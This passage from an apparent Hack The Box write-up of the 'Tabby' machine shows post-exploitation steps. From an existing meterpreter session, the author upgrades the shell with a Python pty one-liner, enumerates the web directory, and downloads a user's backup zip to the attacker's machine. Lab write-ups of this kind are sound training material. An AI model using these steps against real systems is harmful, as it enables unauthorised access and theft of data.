 ```
Process 1 created.
Channel 1 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ 
```

## USER.TXT

Enumerating the machine a bit I find something useful in the `/var/www/html`
directory

```
tomcat@tabby:/var/www/html$ ls -la
ls -la
total 48
drwxr-xr-x 4 root root  4096 Aug 19 14:10 .
drwxr-xr-x 3 root root  4096 Aug 19 14:10 ..
drwxr-xr-x 6 root root  4096 Aug 19 14:10 assets
-rw-r--r-- 1 root root   766 Jan 13  2016 favicon.ico
drwxr-xr-x 4 ash  ash   4096 Aug 19 14:10 files
-rw-r--r-- 1 root root 14175 Jun 17  2020 index.php
-rw-r--r-- 1 root root  2894 May 21  2020 logo.png
-rw-r--r-- 1 root root   123 Jun 16  2020 news.php
-rw-r--r-- 1 root root  1574 Mar 10  2016 Readme.txt
tomcat@tabby:/var/www/html$ cd files
cd files
tomcat@tabby:/var/www/html/files$ ls -la
ls -la
total 36
drwxr-xr-x 4 ash  ash  4096 Aug 19 14:10 .
drwxr-xr-x 4 root root 4096 Aug 19 14:10 ..
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
drwxr-xr-x 2 root root 4096 Aug 19 14:10 archive
drwxr-xr-x 2 root root 4096 Aug 19 14:10 revoked_certs
-rw-r--r-- 1 root root 6507 Jun 16  2020 statement
```

I escaped the shell using ctrl+C and then downloaded the zip file

```
tomcat@tabby:/var/www/html/files$ ^C
Terminate channel 2? [y/N]  y
meterpreter > cd /var/www/html/files
meterpreter > ls
Listing: /var/www/html/files
============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  8716  fil   2020-06-16 09:42:36 -0400  16162020_backup.zip
40554/r-xr-xr--   4096  dir   2021-08-19 10:10:44 -0400  archive
40554/r-xr-xr--   4096  dir   2021-08-19 10:10:44 -0400  revoked_certs
100444/r--r--r--  6507  fil   2020-06-16 07:25:46 -0400  statement

meterpreter > download 16162020_backup.zip /home/kali/Downloads/hackthebox/tabby
[*] Downloading: 16162020_backup.zip -> /home/kali/Downloads/hackthebox/tabby/16162020_backup.zip
[*] Downloaded 8.51 KiB of 8.51 KiB (100.0%): 16162020_backup.zip -> /home/kali/Downloads/hackthebox/tabby/16162020_backup.zip
[*] download   : 16162020_backup.zip -> /home/kali/Downloads/hackthebox/tabby/16162020_backup.zip
```
